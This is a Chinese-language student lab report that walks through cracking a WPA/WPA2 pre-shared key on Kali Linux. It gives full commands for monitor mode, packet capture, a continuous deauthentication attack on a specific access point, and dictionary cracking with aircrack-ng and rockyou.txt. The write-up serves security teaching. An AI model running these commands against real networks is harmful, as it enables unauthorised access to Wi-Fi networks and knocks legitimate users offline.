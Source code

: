 # ⽆线接⼊⽹⼊侵与防御
---

## 实验目标

- [x] 实验⼀：WPA/WPA2 PSK破解


---

## 实验环境

- 操作系统: Kali Linux
- 虚拟机软件: VirtualBox7.1.6

---

## 实验步骤

### 实验⼀：WPA/WPA2 PSK破解
#### 实验步骤:


启动⽆线网卡的监听模式并先查看监听的列表：
```sh
airmon-ng start wlan0
```

![](./img/找到AP的CH.png)


找到要抓包的网络 SSID 在 CH11 后指定信道进行抓包：
```sh
airodump-ng wlan0mon --channel 11 -w saved --beacons
```

![](./img/指定CH开启抓包.png)


开启⼀个新的终端，进⾏ Deauthentication 攻击 ，迫使已经连接的设备先解除连接，重新连接时重新进行四次握手，方便我们抓取到相应的 eapol 包：
```sh
aireplay-ng --deauth 0 -a 82:1C:6D:AA:EC:BF wlan0mon
```

![](./img/启动解除攻击.png)

结束抓包并查看已经抓到的包，检查是否包含 eapol 包，这里我匹配了自己移动设备的 mac 地址和协议类型进行过滤：

![](./img/检查自己移动设备的eapol包.png)

确定抓取到了eapol 包后就可以继续针对抓取的数据包进行分析解密，使⽤ `aircrack-ng` 完成密码破解，调用 rockyou.txt 作为解密字典：

```sh
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 82:1C:6D:AA:EC:BF saved-02.cap
```

![](./img/破解密码成功.png)

可见破解出了 wifi 密码为 `12345678`

---

## 遇到的问题及解决方案

- 破解密码需要通过字典进行匹配，kali 自带的 `/usr/share/wordlists/rockyou.txt` 字典可能还是以 gz 压缩包的形式存放的，需要进行解压操作
```sh
sudo gzip -d  rockyou.txt.gz
```
- 在进行解密时如果没有进行抓取到eapol包会出现下面的情况,无法解密

![](./img/无eapol包.png)

需要重新开始实验抓包，开启抓包在移动端连接或是连接后进行解除认证攻击时抓包

---


